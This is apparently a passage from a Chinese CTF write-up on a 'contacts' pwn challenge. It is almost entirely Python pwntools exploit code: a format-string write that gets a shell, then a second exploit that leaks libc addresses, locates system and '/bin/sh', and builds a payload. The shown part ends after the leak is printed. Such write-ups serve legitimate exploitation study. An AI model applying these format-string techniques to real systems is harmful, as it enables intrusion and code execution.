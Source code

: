 ```python
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```
system出现0截断的情况下，exp如下:
```python
from pwn import *
context.log_level="debug"
context.arch="x86"

io=process("./contacts")
binary=ELF("contacts")
libc=binary.libc

def createcontact(io, name, phone, descrip_len, description):
	sh=io
	sh.recvuntil('>>> ')
	sh.sendline('1')
	sh.recvuntil('Contact info: \n')
	sh.recvuntil('Name: ')
	sh.sendline(name)
	sh.recvuntil('You have 10 numbers\n')
	sh.sendline(phone)
	sh.recvuntil('Length of description: ')
	sh.sendline(descrip_len)
	sh.recvuntil('description:\n\t\t')
	sh.sendline(description)
def printcontact(io):
	sh=io
	sh.recvuntil('>>> ')
	sh.sendline('4')
	sh.recvuntil('Contacts:')
	sh.recvuntil('Description: ')

#gdb.attach(io)

createcontact(io,"1","1","111","%31$paaaa")
printcontact(io)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241
log.success('get libc_start_main addr: ' + hex(libc_start_main))
libc_base=libc_start_main-libc.symbols["__libc_start_main"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search("/bin/sh"))
log.success("system: "+hex(system))
log.success("binsh: "+hex(binsh))

payload = '%6$p%11$pccc'+p32(system)+'bbbb'+p32(binsh)+"dddd"
createcontact(io,'2', '2', '111', payload)
printcontact(io)
io.recvuntil('Description: ')
data = io.recvuntil('ccc', drop=True)
data = data.split('0x')
print data
```